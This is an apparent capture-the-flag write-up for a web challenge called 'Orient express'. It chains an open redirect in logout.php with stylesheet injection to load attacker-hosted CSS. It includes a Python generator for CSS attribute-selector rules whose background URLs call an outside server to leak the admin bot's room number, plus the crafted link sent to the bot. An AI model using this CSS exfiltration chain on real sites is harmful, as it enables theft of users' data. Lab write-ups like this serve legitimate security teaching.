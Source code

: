 # Orient express

Given description:
```
At first we kind of wanted the CTF to be train themed, but its really not.

anyway here is another web challenge and this one is related to trains.

http://your-instance-ip:10006


*----------------------------------------------------

You arrive at the orient express.

There is 1 other passager, its the admin cat.

You must find his cabin and steal his flag.

Your booking number: **AZ921KVM**


------------------------------------------------------*

(This site is known to the admin cat as http://orientexpress.local:80, make the admin cat visit a link by going to https://your-instance-ip:10004)


Revenge incoming !
```

DOwnloading the source we can see a few things in the code.

`index.php`
```
<?php
$roomnumbers = [
    'AZ921KVM' => 'ROOM-2034',# Players room
    'XXXXXXXX' => 'ROOM-0000' # Bots room
];
```
Here we can see that our given booking number matched "ROOM-2034"

```
<a href="/admin.php" style="display: none;">Admin Check </a>
```
We can also see that there is an admin.php but its hidden.

Checking out admin php we can see that we are allowed to search for a room number every 10 minutes and if the room number exists then we get a flag.
`admin.php`

```
` // sample dictionary
    $roomnumbers = [
        '2034' => 'TDCNET{S0rry_this_flag_is_f4ke_You_need_to_get_the_stupid_admin_cats_room_number}',# Players room
        '0000' => 'TDCNET{f4k3_fl4g}' # Bots room
    ];

    $valueIn = $_POST['value'];
    $value = (string) $valueIn;
    $key =  $roomnumbers[$value];
    if ($key !== NULL) {
        echo "<br>The flag for the tenant in the room '".htmlspecialchars($value)."' is '$key'.";
    } else {
        echo "<br>There does not seem to be any tenants in the room: '".htmlspecialchars($value)."' ";
    }
}
```

So we can essentially see now that we have to get the right room number for the admin / bot somehow. but in the fixed version of the challenge (revenge) there is no xss vector.

So lets try to log in again and see what we have.

![](1.png)

We see we have a `?next=` parameter, often times this is a result of an open redirect. in the code: `logout.php`

```
// handle the 'next' GET parameter for redirection
if (isset($_GET['next'])) {
    $next = $_GET['next'];
    header("Location: $next");
    exit;
```

![](2.png)

Ok so we have an open redirect primitive here. But that won't help us yet.

Lets read the html of the logged in page

```


<!DOCTYPE html>
<html>
<head>
    <title>Train Car Room Number</title>
    <link rel="stylesheet" type="text/css" href="styles/styles.css"></head>
<body>
    <div class="container">
        <a href="/admin.php" style="display: none;">Admin Check </a>
        <p class="success">Your room number: </p> <a href="/image.php?room=ROOM-2034" class="roomnumber" >ROOM-2034</a><br><br><a href="/logout.php?next=index.php"> logout here</a>    </div>
</body>
</html>
```

So we see there is a stylesheet referenced as `href="styles/styles.css"`

if we change the parameter it changes also in the code 

![](3.png)

So we can do css injection and change the stylesheet, by utilizing the open redirect like so

https://orient-express.local:80/index.php?style=../logout.php?next=https://google.com 

Which we can point at our server hosting css

![](4.png)

But what can we use this for?

### **CSS ATTRIBUTE SELECTORS TO THE HELP**

So we can actually conditionally style  `<a>` tags in CSS based on their attributes.

Say you want to style an `<a>` tag different if its pdf or html? You can do so by:

```
a[href$=".pdf"] {
  background: url('pdf-icon.png') no-repeat;
  padding-left: 20px;
}
```

soooo what if we want to style the `<a>` tag based on the room number?

```
a[href="/image.php?room=ROOM-2034"] {
  color: red;
}

a[href="/image.php?room=ROOM-2035"] {
  color: blue;
}

a[href="/image.php?room=ROOM-2036"] {
  color: green;
}
```
We can also wildcard the start of the tag and just test the ending:

so just testing the end of the tag being 9997
```
a[href$="9997"]{
    color: blue;
}
```

Instead of beautiful colors we can also just reference an external resource? Like so:

```
a[href$="9997"]{
    background: url(http://link:8000/aaa/log?pin=ROOM+9997});
}
a[href$="9998"]{
    background: url(http://link:8000/aaa/log?pin=ROOM+9998});
}
a[href$="9999"]{
    background: url(http://link:8000/aaa/log?pin=ROOM+9999});
}
```

So we just need to create a script that will take all the possible room numbers (0000-9999) and create different css stylings depending on the number, to leak the room number.

```python
for i in range(1000,10000):
    print('a[href$="'+str(i)+'"]{\n    background: url(http://134.209.176.239:8000/aaa/log?pin=ROOM+'+str(i)+'});\n}')
```

which will generate the above css, lets call it `lol.css`

so now we need to host the `lol.css` on some vps, mine is: 134.209.176.239

Now we craft a url and send it to the admin cat

`http://orientexpress.local:80/index.php?style=../logout.php?next=http://134.209.176.239:8000/lol.css`


And we get the following 

![](5.png)

and we get the room number of the stupid admin cat and can put it into the admin.php to get the flag

![](6.png)



________________


We had to make a revenge challenge because I forgot to sanitize one point in the admin page that then allowed for xss lol.



